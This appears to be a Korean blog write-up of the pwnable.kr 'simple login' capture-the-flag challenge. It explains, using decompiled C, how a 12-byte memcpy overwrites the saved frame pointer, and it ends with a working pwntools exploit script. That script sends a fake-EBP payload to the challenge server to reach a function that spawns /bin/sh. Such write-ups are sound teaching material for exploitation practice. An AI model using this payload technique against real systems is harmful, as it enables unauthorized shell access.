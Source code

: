 ```yaml
---
title: "[pwnable.kr]simple login"
date: 2020-1-17
ctf: Pwnable.kr
layout: post
published : false
---
```


입력 받은 값을 `Base64Decode` 함수에서 디코드해서 md5한 값이 `f87cd601aa7fedca99018a8be88eda34` 이 되야하는데 계속 바뀐다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+18h] [ebp-28h]
  char input; // [esp+1Eh] [ebp-22h]
  unsigned int v6; // [esp+3Ch] [ebp-4h]

  memset(&input, 0, 30u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ");
  _isoc99_scanf("%30s", &input);
  memset(&::input, 0, 12u);
  v4 = 0;
  v6 = Base64Decode(&input, &v4);
  if ( v6 > 12 )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&::input, v4, v6);
    if ( auth(v6) == 1 )
      correct();
  }
  return 0;
}
```

`auth` 함수에서 memcpy할때 a1만큼하는데 여기서 12가 들어가면 sfp를 덮을 수 있다.

```c
_BOOL4 __cdecl auth(int a1)
{
  char v2; // [esp+14h] [ebp-14h]
  char *md5_value; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h]

  memcpy(&v4, &input, a1);
  md5_value = calc_md5(&v2, 12);
  printf("hash : %s\n", md5_value);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", md5_value) == 0;
}
```

`correct` 함수는 쉘을 띄워준다.

```c
void __noreturn correct()
{
  if ( input == 0xDEADBEEF )
  {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}
```

Fake EBP를 이용한 문제다. sfp를 전역변수인 input으로 덮고 esp + 4위치인 corret함수로 리턴되게하면 된다.

> exploit.py

```python
from pwn import *

e = ELF('./login')
#p = process('./login')
p = remote('pwnable.kr',9003)
_input = 0x0811EB40
_correct = 0x0804940C

payload = p32(0xDEADBEEF) # dummy
payload += p32(_correct) # eip
payload += p32(_input) # sfp -> bss
# leave-ret

p.sendafter(':',payload.encode('base64'))

p.interactive()
```

